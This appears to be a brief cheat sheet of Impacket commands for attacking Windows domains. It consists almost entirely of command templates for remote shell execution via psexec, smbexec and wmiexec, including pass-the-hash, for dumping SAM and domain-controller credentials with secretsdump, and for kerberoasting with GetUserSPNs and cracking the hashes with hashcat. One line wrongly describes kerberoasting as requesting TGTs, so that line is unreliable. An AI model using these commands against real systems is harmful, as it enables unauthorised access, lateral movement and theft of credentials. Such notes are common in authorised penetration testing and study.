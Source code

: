 # impacket guide

## psexec | smbexec | wmiexec

```bash
impacket-psexec DOMAIN/USER:['PASS']@IP [-hashes :NTLMHASH]
impacket-smbexec DOMAIN/USER:['PASS']@IP [-hashes :NTLMHASH]
impacket-wmiexec DOMAIN/USER:['PASS']@IP [-hashes :NTLMHASH]
```

## secretsdump (dumps SAM)

```bash
impacket-secretsdump DOMAIN/USER:['PASS']@IP [-just-dc]
# -just-dc: if IP is a domain-controller
```

## GetUserSPNs

Requesting TGTs for services to get all hashes

* msf: `use auxiliary/gather/get_user_spns` 
```bash
impacket-GetUserSPNs DOMAIN/USER -hashes LM:NTLM_HASH -dc-ip DC_IP -request -outputfile hashes.kerberoast
impacket-GetUserSPNs DOMAIN/USER:['PASS'] -dc-ip DC_IP -request
# hashcat -m 13100
```

